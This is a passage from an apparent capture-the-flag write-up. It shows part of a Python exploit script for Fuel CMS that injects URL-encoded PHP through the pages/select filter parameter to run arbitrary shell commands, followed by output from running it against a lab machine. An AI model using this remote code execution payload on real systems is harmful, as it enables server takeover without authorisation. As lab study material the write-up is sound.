 ```python
		sys.exit()
	
	return args


args = get_arguments()
url = args.url 

if "http" not in url:
	sys.stderr.write("Enter vaild url")
	sys.exit()

try:
   r = requests.get(url)
   if r.status_code == 200:
       print(Style.BRIGHT+Fore.GREEN+"[+]Connecting..."+Style.RESET_ALL)


except requests.ConnectionError:
    print(Style.BRIGHT+Fore.RED+"Can't connect to url"+Style.RESET_ALL)
    sys.exit()

while True:
	cmd = input(Style.BRIGHT+Fore.YELLOW+"Enter Command $"+Style.RESET_ALL)
		
	main_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+quote(cmd)+"%27%29%2b%27"

	r = requests.get(main_url)

	#<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

	output = r.text.split('<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">')
	print(output[0])
	if cmd == "exit":
		break
```

## Exploitation
* After downloading the script and running it against our target URL, we can see that it does indeed work!

```shell
└─$ python3 exploit.py -u http://10.10.230.52
[+]Connecting...
Enter Command $ls
systemREADME.md
assets
composer.json
contributing.md
fuel
index.php
robots.txt


Enter Command $whoami
systemwww-data


Enter Command $
```
